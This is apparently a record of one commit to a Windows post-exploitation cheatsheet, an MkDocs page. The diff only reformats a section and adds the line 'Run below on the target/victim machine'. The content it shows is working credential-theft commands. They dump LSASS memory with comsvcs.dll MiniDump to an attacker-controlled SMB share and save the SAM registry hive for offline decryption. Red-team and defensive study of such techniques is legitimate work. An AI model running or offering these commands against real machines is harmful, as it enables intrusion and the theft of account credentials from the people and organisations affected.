

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Post_Exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 888 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Post_Exploitation.md

````diff
--- a/docs/Windows/Post_Exploitation.md
+++ b/docs/Windows/Post_Exploitation.md
@@ -38,10 +38,11 @@ Useful if AV cannot be disabled and does not block procdump.exe
     * Via Task manager
         * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
     * Remote LSASS dump[^4]
-        ```batch
-        net use x: \\smbserver_under_your_control\c$\
-        powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
-        ```
+        * Run below on the target/victim machine
+            ```batch
+            net use x: \\smbserver_under_your_control\c$\
+            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
+            ```
 
 1. Retrieve file
 
@@ -51,7 +52,7 @@ Useful if AV cannot be disabled and does not block procdump.exe
     ```
 
 ### Exporting registry hives & local decryption
-1. On target machine
+1. On the target machine
     ```batch
     mkdir c:\temp
     reg.exe save hklm\sam c:\temp\sam.save
````
